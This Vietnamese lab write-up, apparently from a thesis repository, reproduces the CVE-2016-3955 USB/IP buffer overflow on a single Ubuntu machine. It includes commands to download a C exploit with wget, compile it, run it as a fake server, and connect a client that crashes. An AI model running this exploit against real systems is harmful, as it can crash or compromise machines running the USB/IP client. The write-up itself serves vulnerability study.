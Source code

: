 # Thực nghiệm thứ nhất 

## Kịch bản 

- Chạy trên Ubuntu 14.04.1 
- Sử dụng server và client trên cùng một node
- Sử dụng một chương trình C để giả mạo server 
- Client kết nối tới server giả mạo 

Kết quả: 

- Client sẽ bị crash vì tràn bộ đệm 

## Thiết lập 

### Server 

- Tải chương trình C 

    ```
    wget https://raw.githubusercontent.com/MinhKMA/graduate_thesis/master/CVE-2016-3955.c
    ```
- Biên dịch 

    ```
    gcc CVE-2016-3955.c -o CVE-2016-3955
    ```

- Chạy server giả mạo 

    ```
    modprobe usbip-core
    modprobe usbip-host
    modprobe vhci-hcd
    ```

    ```
    ./CVE-2016-3955
    ```
### Client 

- Cài đặt USB/IP

    ```
    apt-get install usbip -y
    ```

- Kết nối với server 

    ```
    usbip -a 127.0.0.1 2-1 -D
    ```

- Client bị crash

